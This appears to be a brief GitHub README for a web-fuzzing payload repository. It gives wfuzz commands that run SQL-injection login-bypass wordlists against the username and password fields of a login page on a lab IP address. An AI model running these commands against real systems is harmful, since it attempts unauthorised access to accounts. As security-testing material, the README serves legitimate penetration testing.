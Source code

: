 # web-fuzzing-payloads
Use this payloads to web fuzzing test  

Usage

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=FUZZ&password=sa1"
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=sayaa&password=FUZZ"
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -z file,auth_bypass_sqli.txt -z file,auth_bypass_sqli.txt -d "username=FUZZ&password=FUZ2Z"

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_with_hash_check_sqli.txt -d "username=FUZZ&password=password123"
